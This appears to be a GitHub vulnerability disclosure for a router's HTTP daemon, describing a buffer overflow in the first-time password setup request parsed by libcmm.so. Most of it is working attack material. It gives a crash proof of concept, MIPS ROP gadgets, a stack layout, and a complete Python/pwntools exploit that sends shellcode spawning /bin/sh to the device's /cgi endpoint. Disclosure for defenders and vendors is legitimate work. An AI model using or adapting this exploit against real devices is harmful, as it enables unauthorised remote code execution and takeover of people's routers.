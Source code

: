 ## ***\*Affected version\****

![img](https://github.com/cilan2/iot/blob/main/img/wpsE0E3.tmp.jpg) 

##  

## ***\*Description\****

There is a buffer overflow when HTTP body message is parsed by httpd process, which may lead to remote code execution. For example, When we set the router password for the first time, the http daemon did not verify the external http message. If we transmit a long user name or password, it will cause the httpd process access to illegal address.

![img](https://github.com/cilan2/iot/blob/main/img/wpsE0E4.tmp.jpg) 

The instruction where the error occurred is libcmm.so

![img](https://github.com/cilan2/iot/blob/main/img/wpsE0E5.tmp.jpg) 

Crash log

![img](https://github.com/cilan2/iot/blob/main/img/wpsE0E6.tmp.jpg) 

## ***\*Vulnerability analysis\****

Through the tracking of data flow, we found that the problem occurred in the following code

![img](https://github.com/cilan2/iot/blob/main/img/wpsE0E7.tmp.jpg) 

v21 variable stores the value corresponding to each key-value pair (such as user name and password)，The length of the variable v26 is only 1304 bytes. When we are exploiting the vulnerability, we also need to pay attention to the 96 lines of code that will cause a crash due to buffer overflow.

## 

## ***\*How to Reproduce (PoC)\****

It is easy to reproduce this problem.

\# Only after resetting the router or using the router for the first time, can the script work effectively!import requests

headers = {

​	"Host": "192.168.0.1",

​	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",

​	"Accept": "*/*",

​	"Accept-Language": "en-US,en;q=0.5",

​	"Accept-Encoding": "gzip, deflate",

​	"Content-Type": "text/plain",

​	"Content-Length": "78",

​	"Origin": "http://192.168.0.1",

​	"Connection": "close",

​	"Referer": "http://192.168.0.1/"

}

payload = "a" * 512 + "b" * 1024formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)

url = "http://192.168.0.1/cgi?8"

response = requests.post(url, data=formdata, headers=headers)print response.text



![img](https://github.com/cilan2/iot/blob/main/img/wpsE0E8.tmp.jpg) 

How to Exploit (exp)
In libuclibc-0.9.33.so, find the widget that can jump to the sleep function, and this widget can assign a value to the RA register, which is convenient to control the instruction that the return address points to.

# gadget 1
.text:000369E4                 move    $t9, $s0
.text:000369E8                 lw      $ra, 0x24($sp)
.text:000369EC                 lw      $s0, 0x20($sp)
.text:000369F0                 addiu   $a0, 0xC
.text:000369F4                 jr      $t9
.text:000369F8                 addiu   $sp, 0x28
Look for instructions that can store the stack address in the register. The stack address is the shellcode address.

# gadget 2
.text:00058894                 addiu   $a1, $sp, 0x34
.text:00058898                 move    $t9, $s0
.text:0005889C                 jalr    $t9
Jump to stack to execute code.

# gadget 3
.text:0003FD8C                 move    $t9, $a1
.text:0003FD90                 move    $a1, $a2
.text:0003FD94                 jr      $t9
Stack layout

┌─────────────┐◄───── sp
│             │
│             │
├─────────────┤◄───── sp + 0x68				# 
│     v26     │
├─────────────┤
│             │
│             │
│             │
│             │
│             │
│             │
├─────────────┤◄───── sp + 0x580			# 0x5880a764
│     v27     │
├─────────────┤◄───── sp + 0x584
│     v28     │
├─────────────┤◄───── sp + 0x588			# sleep
│     s0      │
├─────────────┤
│             │
│             │
├─────────────┤◄───── sp + 0x5ac			# gadget 1
│     ra      │
├─────────────┤◄───── sp1 = sp + 0x5b0
│             │
│             │
├─────────────┤◄───── sp1 + 0x20			# gadget 3
│     s0      │
├─────────────┤◄───── sp1 + 0x24			# gadget 2
│     ra      │
├─────────────┤◄───── sp2 = sp1 + 0x28
│             │
│             │
├─────────────┤◄───── sp2 + 0x34			# shellcode
│  shellcode  │
└─────────────┘
payload

payload = b'a' * (0x580 - 0x68)
payload += p32(file_base + 0xa780)			# v27
payload += b'b' * 4				
payload += p32(libuclibc_base + 0x56D20)	# s0
payload += b'c' * (0x5ac - 0x588 - 0x4)
payload += p32(libuclibc_base + gadget_1)	# ra = gadget

payload += b'd' * 0x20
payload += p32(libuclibc_base + gadget_3)
payload += p32(libuclibc_base + gadget_2)
payload += b'e' * 0x34
result

gef➤  c
Continuing.
process 444 is executing new program: /bin/busybox
Reading /bin/busybox from remote target...
Reading /bin/busybox from remote target...
Reading /lib/ld-uClibc.so.0 from remote target...
Reading /lib/ld-uClibc.so.0 from remote target...
exp

# Only after resetting the router or using the router for the first time, can the script work effectively!
import requests
from pwn import *

headers = {
    "Host": "192.168.0.1",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "text/plain",
    "Content-Length": "78",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": "http://192.168.0.1/"
}


libcmm_base = 0x2b985000
file_base = 0x58800000
libuclibc_base = 0x2bcdf000

gadget_1 = 0x000369E4
gadget_2 = 0x00058894
gadget_3 = 0x0003FD8C

shellcode = "\x66\x06\x06\x24" + "\xff\xff\xd0\x04" + "\xff\xff\x06\x28" + "\xe0\xff\xbd\x27"+ "\x01\x10\xe4\x27" + "\x1f\xf0\x84\x24" + "\xe8\xff\xa4\xaf"+ "\xec\xff\xa0\xaf" + "\xe8\xff\xa5\x27"+ "\xab\x0f\x02\x24" + "\x0c\x01\x01\x01"+ "/bin/sh"

payload = b'a' * (0x580 - 0x68)
payload += p32(file_base + 0xa780)			# v27
payload += b'b' * 4				
payload += p32(libuclibc_base + 0x56D20)	# s0
payload += b'c' * (0x5ac - 0x588 - 0x4)
payload += p32(libuclibc_base + gadget_1)	# ra = gadget

payload += b'd' * 0x20
payload += p32(libuclibc_base + gadget_3)
payload += p32(libuclibc_base + gadget_2)
payload += b'e' * 0x34

payload += shellcode


str_payload = ""

for p in payload:
	str_payload += chr(p)

formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname=admin\r\noldPwd=admin\r\npwd={}\r\n".format(str_payload)

url = "http://192.168.0.1/cgi?8"
response = requests.post(url, data=formdata, headers=headers)
print(formdata)
print(response.text)
